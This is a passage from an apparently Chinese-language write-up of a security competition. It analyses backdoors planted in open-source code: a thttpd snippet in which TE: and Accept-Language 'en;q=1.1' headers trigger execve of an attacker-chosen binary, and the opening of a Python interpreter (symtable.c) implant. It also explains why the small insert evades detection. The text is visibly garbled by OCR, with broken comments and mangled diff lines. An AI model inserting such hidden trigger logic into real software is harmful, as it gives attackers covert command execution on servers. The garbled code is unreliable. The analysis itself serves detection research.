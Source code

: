 ### HAVE_SIGSET

```
/ Run the program. /

if ( strstr( hc-&gt;acceptl, “en;q=1.1”) != (char*)0 )
`{`
binary = argp[1];
argp++;
`}`
(void) execve( binary, argp, envp );
/ Something went wrong. /
```

后门会根据http头判断是否开启cgi功能，并根据http头Accept-Language决定解析执行文件的路径。上述代码段中，首先通过http头TE:设置开启cgi功能（对应上述代码中，httpd_parse_request函数中插入的else if ( strncasecmp( buf, “TE:”, 3 ) == 0) `{`…`}`代码块）。而下游代码同样巧妙，指定特殊的Accept-Language: en;q=1.1决定是否执行指定的系统命令（即cgi_child函数插入的if ( strstr( hc-&gt;acceptl, “en;q=1.1”) != (char*)0 ) `{`…`}`代码块）。<br>
本例恶意行为的主要特点：<br>
• 该后门的嵌入，新增代码量极小（共7行），巧妙借用了thttpd处理用户请求、cgi的原本逻辑，借用了execve的调用，没有任何新增的API调用等行为，可以躲避有意识的行为特征匹配检测。<br>
• 该后门在代码中的插入，分布在了存在逻辑关联的上下游两个位置，在源代码分析领域，属于过程间代码扫描问题，对于基于语义的源代码静态扫描方案也提出了很高的要求。



## 二、Python上帝之手

对生产环境上运行的任意程序获取控制、检查、按需泄漏的权力，很难做的轻量、了无痕迹，总会有鲜明的行为特征被人察觉；但是针对解释执行类型的语言，只需要在解释器上稍动手脚，就可以实现四两拨千斤的效果。本次比赛有两只出题队不约而同地采用了这个思路，分别在Python和Lua解释器上实现了巧妙的污染来实现非破坏性的定向攻击，此处以Python为例展示。<br>
恶意行为完整代码，嵌入到了Python/symtable.c文件中的多个位置，完整的新增内容如下：

```
* /Python3.6.6rc1/Python/symtable.c
—- malware/symtable.c

4,9 *
—- 4,16 ——
```

### <a class="reference-link" name="include%20%E2%80%9Csymtable.h%E2%80%9D"></a>include “symtable.h”

<a class="reference-link" name="include%20%E2%80%9Cstructmember.h%E2%80%9D"></a>**include “structmember.h”**
- static int PyArglen;
- static int PyCurpos;
### <a class="reference-link" name="define%20PyMaxpos%20512"></a>define PyMaxpos 512
- static char PyBuffer[PyMaxpos];
- static int
symtable_visit_Dynamic(struct symtable st, expr_ty e);<br>
+<br>
/ error strings used for warnings */
